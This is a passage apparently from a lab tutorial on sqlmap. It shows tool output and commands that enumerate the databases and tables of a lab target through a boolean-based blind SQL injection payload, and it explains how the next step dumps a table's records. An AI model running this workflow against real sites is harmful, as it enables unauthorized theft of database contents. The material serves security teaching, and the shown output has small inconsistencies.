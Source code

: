 ```shell
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

After running the above command, we got two database names. Select the users database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Now that we have all the available table names of the database, let's dump the records present in the thomas table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.
